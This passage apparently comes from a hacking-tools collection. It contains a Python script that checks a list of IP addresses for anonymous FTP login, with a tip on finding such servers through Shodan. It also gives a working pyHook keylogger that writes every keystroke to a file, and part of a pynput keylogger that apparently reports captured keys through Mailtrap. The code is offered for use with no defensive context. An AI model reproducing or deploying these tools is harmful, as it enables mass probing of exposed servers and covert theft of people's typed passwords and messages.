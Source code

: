 ```python
#!/usr/bin/python3

from ftplib import FTP
import sys

ips = open(sys.argv[1], 'r')
r = ips.readlines()
for item in r:
    item = item.strip()
    print("[+] Connecting to: %s \n" %item)
    try:
        ftp = FTP(item, timeout=3) 
        ftp.login()
       
        if ftp.retrlines('LIST') != 0:
            print("[+] Anonymous login enabled on Host: %s \n" %item)
            print("="*70+"\n")
    except:
        print("[+] Unable to Connect to Host: %s\n" %item)
        print("="*70+"\n")
```

1. Usage : ```python3 FTPLoginChecker.py ip_addresses.txt```
2. Note : Use shodan_eye.py to search for FTP servers that have the ```anon``` login enabled.
3. Search Keyword : ```230 anonymous```

## Python Keylogger

```python
import pyHook, pythoncom, logging
logging.basicConfig(filename='mykeylogger.txt', level=logging.DEBUG, format='%(message)s')

def OnKeyboardEvent(event):
    logging.log(logging.DEBUG,chr(event.Ascii))
    return True

hooks_manager = pyHook.HookManager()
hooks_manager.KeyDown = OnKeyboardEvent
hooks_manager.HookKeyboard()
pythoncom.PumpMessages()
```

Mailtrap.io implementation:

```python
from pynput import keyboard
from pynput.keyboard import Listener
...
keyboard_listener = keyboard.Listener(on_press=self.save_data)
with keyboard_listener:
    self.report()
    keyboard_listener.join()
```
